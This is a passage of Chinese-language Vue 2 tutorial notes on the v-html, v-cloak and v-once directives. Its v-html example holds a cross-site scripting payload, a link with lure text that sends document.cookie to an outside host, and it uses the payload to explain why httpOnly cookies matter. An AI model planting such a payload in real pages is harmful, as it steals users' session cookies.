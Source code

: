 :::

示例：

```html
<!--22.内置指令-v-html.html-->
<div id="root">
  <div v-html="str"></div>
</div>
<script src="https://unpkg.com/vue@2.7.0/dist/vue.js"></script>
<script>
  Vue.config.productionTip = false; // 关闭生产提示

  // cookie 的 httpOnly 属性为 true 时，只能 HTTP 访问该 cookie， JS 不能访问
  // 如果服务端设置的 cookie 时 httpOnly 为 false，可能会导致 XSS 时信息泄露
  const vm = new Vue({
    el:'#root',
    data:{
      str: '<a href=javascript:location.href="http://www.baidu.com?"+document.cookie>兄弟我找到你想要的资源了，快来！</a>',
    },
  });
</script>
```

### 15.3. v-cloak
::: v-pre
本质是一个特殊属性，Vue 实例创建完毕并接管容器后，会删掉 `v-cloak` 属性。

使用 css 配合 `v-cloak` 可以解决网速慢时页面展示出 `{{xxx}}` 的（未解析的模板）问题。
:::

示例：

```html
<style>
  [v-cloak] {
    display: none;
  }
</style>
<div id="root">
  <div v-cloak>{{ xxx }}</div>
</div>
<script src="...../vue.js"></script>
<script src="...../main.js"></script>
```

### 15.4. v-once

`v-once` 所在节点在初次动态渲染后，就视为静态内容了。

以后数据的改变不会引起 `v-once` 所在结构的更新，可以用于优化性能。

示例：
